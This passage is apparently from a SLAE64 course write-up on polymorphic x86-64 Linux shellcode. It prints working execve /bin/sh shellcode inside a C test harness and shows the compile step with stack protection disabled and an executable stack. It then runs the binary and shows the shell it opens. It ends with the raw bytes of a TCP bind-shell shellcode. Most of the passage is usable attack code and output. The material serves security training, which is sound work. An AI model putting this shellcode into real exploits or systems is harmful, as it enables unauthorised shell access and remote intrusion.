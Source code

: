 After that, we modify the `shellcode.c` with the shellcode from `objdump`, which checks if a shellcode is working.

The whole `C` program is the following:

```c
#include <stdio.h> 
#include <string.h> 

unsigned char code[] = \ 
"\x48\x31\xf6\x48\xf7\xe6\x48\xbb\xff\x2f\x62\x69\x6e\x2f\x73\x68\x48\xc1\xeb\x08\x53\x48\x89\xe7\xb0\x3b\x0f\x05\x48\x97\x6a\x3c\x58\x0f\x05";

main() 
{ 
	printf("Shellcode Length: %d\n", strlen(code)); 
	
	int (*ret)() = (int(*)())code; 
	
	ret(); 
}
```

Now we need to compile the `C` program, by disabling the stack protection as well as making the stack executable:

```shell
geobour98@slae64-dev:~/SLAE/custom/SLAE64/6_Polymorphic/1_execve$ gcc -fno-stack-protector -z execstack shellcode.c -o shellcode
```

In order to verify that the payload is working we must execute `shellcode`.

```shell
geobour98@slae64-dev:~/SLAE/custom/SLAE64/6_Polymorphic/1_execve$ ./shellcode
Shellcode Length: 35
$ id
uid=1000(geobour98) gid=1000(geobour98) groups=1000(geobour98),4(adm),24(cdrom),27(sudo),30(dip),46(plugdev),113(lpadmin),128(sambashare)
$ ls
compile.sh  execve-original	  execve-original.o  execve.o	shellcode-original    shellcode.c
execve	    execve-original.nasm  execve.nasm	     shellcode	shellcode-original.c
$ exit
geobour98@slae64-dev:~/SLAE/custom/SLAE64/6_Polymorphic/1_execve$
```

The shellcode is working, its size is `35` bytes and has been decreased by `6` bytes!

## tcpbindshell {#tcpbindshell}

The original `tcpbindshell` shellcode is the following:

```shell
\x48\x31\xc0\x48\x31\xff\x48\x31\xf6\x48\x31\xd2\x4d\x31\xc0\x6a\x02\x5f\x6a\x01\x5e\x6a\x06\x5a\x6a\x29\x58\x0f\x05\x49\x89\xc0\x4d\x31\xd2\x41\x52\x41\x52\xc6\x04\x24\x02\x66\xc7\x44\x24\x02\x7a\x69\x48\x89\xe6\x41\x50\x5f\x6a\x10\x5a\x6a\x31\x58\x0f\x05\x41\x50\x5f\x6a\x01\x5e\x6a\x32\x58\x0f\x05\x48\x89\xe6\x48\x31\xc9\xb1\x10\x51\x48\x89\xe2\x41\x50\x5f\x6a\x2b\x58\x0f\x05\x59\x4d\x31\xc9\x49\x89\xc1\x4c\x89\xcf\x48\x31\xf6\x6a\x03\x5e\x48\xff\xce\x6a\x21\x58\x0f\x05\x75\xf6\x48\x31\xff\x57\x57\x5e\x5a\x48\xbf\x2f\x2f\x62\x69\x6e\x2f\x73\x68\x48\xc1\xef\x08\x57\x54\x5f\x6a\x3b\x58\x0f\x05
``` 
